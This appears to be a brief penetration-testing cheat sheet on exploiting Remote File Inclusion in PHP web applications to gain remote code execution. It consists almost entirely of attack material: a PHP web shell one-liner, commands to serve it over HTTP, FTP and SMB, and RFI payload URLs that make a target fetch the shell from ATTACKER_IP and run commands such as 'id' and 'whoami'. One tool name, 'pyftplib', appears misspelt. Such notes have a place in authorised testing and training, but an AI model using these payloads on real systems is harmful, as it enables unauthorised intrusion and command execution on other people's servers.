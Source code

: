 
Remote File Inclusions, allow you to enter a remote IP address in the payload.

```
index.php?language=http://127.0.0.1:80/index.php
```

### RCE via RFI

1) Create a reverse_shell.php on local machine:
```cli
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

2) Open python listener, preferably on port 443 or 80
```cli
python3 -m http.server 80
```

3) Add the payload to the RFI vulnerable parameter specifying what command to execute
```
/index.php?language=http://ATTACKER_IP:LISTENING_PORT/shell.php&cmd=id
```

### FTP

If http is blocked by WAF try sending via ftp. Instead of an HTTP server, start a ftp server in python.

```cli
sudo python -m pyftplib -p 21
```

Then payload would be:

```
ftp://ATTACKER_IP/shell.php&cmd=id
```

### SMB

If vulnerable webapp is hosted on a Windows server, use impacket smb server to send payload.

```cli
impacket-smbserver -smb2support share $(pwd)
```

The RFI payload is:

```
\\ATTACKER_IP\share\shell.php&cmd=whoami
```

